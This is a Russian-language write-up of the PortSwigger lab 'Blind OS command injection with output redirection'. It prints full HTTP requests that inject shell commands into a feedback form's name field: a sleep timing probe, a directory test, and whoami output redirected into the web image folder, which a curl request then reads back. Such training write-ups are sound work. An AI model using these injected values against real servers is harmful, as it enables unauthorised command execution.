 ```yaml
---
title: "Blind OS command injection with output redirection"
date: 2025-06-27
tags: [injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection"
classes: wide
---
```


Содержит уязвимость **Blind OS command injection**. Для прохождения нужно запустить `whoami` и получить ответ.

```
https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/
```

## Solution

Бегом ковырять форму обратной связи) Соберу `HTTP` запрос:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=name&email=email%40mail.com&subject=subeject&message=message
```

Проверю поля:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(sleep 10)&email=email%40mail.com&subject=subeject&message=message
```

Поле `name` уязвимо, значит можно использовать его для запуска шелла. Нужно как-то вывести информацию на сайт. На сайте есть картинки. Если для хостинга используется `appache`, то можно попробовать создать файл в `/var/www/images`. Проверю, что эта директория есть:

```bash
if test -d "/var/www/images"; then sleep 10; fi
```

В данной строке я проверяю, что `/var/www/images` — это директория. Если это так, то вызываю `sleep 10`:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(if test -d "/var/www/images"; then sleep 10; fi)&email=email%40mail.com&subject=subeject&message=message
```

Я получил нужную задержку:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_output_redirection/1.png){: height="200" .align-center}

Попробую создать файл:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(whoami > "/var/www/images/my_file.jpg")&email=email%40mail.com&subject=subeject&message=message
```

Прочитаю файл через `curl`:

```bash
cu63:~/ $ curl https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/image\?filename\=my_file.jpg                      
peter-nYlJLk
```

Лаба решена:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_output_redirection/2.png){: height="200" .align-center}
